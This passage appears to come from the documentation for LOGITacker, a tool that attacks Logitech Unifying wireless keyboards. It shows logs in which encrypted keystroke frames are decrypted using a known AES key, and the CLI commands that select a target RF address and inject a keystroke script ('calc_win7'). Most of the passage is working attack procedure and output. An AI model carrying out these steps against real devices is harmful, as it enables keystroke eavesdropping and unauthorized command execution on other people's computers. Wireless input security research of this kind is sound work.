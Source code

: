 When pressing keys on the - now paired - device, 
LOGITacker should not only print the encrypted reports, but a decrypted version, too (in passive-enum mode).

Here's an example for the key "RIGHT":

```
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: frame RX in passive enumeration mode (addr 01:89:97:E6:25, len: 22, ch idx 9, raw ch 32)
<info> app: Unifying RF frame: Encrypted keyboard, counter BD8A4B14                <<-- encrypted frame
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 D3 1B 9B 99 17 CA 64|.......d
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  3E 4A BD 8A 4B 14 00 00|>J..K...
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 6B      |.....k  
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Test decryption of keyboard payload:
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 4F 00 00 00 00 00 C9|.O......
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Mod: NONE
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Key 1: HID_KEY_RIGHT                     <<-- decrypted key press "RIGHT" (only if AES key known)
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: frame RX in passive enumeration mode (addr 01:89:97:E6:25, len: 22, ch idx 9, raw ch 32)
<info> app: Unifying RF frame: Encrypted keyboard, counter BD8A4B15               <<-- encrypted frame
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 D3 E4 FB CE 17 E2 95|........
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  53 C8 BD 8A 4B 15 00 00|S...K...
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 30      |.....0  
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Test decryption of keyboard payload:
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM:  00 00 00 00 00 00 00 C9|........
<info> LOGITACKER_PROCESSOR_PASIVE_ENUM: Mod: NONE                                <<-- decrypted key release (only if AES key known)
```

Additionally, the device should be listed in red with the remarks "encrypted, key ḱnown":

```
LOGITacker (passive enum) $ devices 
AE:C7:93:48:36 Logitech device, keyboard: yes (encrypted, key ḱnown), mouse: yes
```

Now everything is set, for encrypted injection (LOGITackers script engine automatically encrypts keyboard RF reports
for devices with known key).

In order to inject the "calc_win7" script (which should already be loaded), two steps are needed:

1) Select the injection target (tab completition available)
2) Execute the injection

This is done with the following commands (RF address of the device is only an example):

```
LOGITacker (passive enum) $ inject target AE:C7:93:48:36 
parameter count 2
Trying to send keystrokes using address AE:C7:93:48:36
LOGITacker (passive enum) $ inject execute 
```
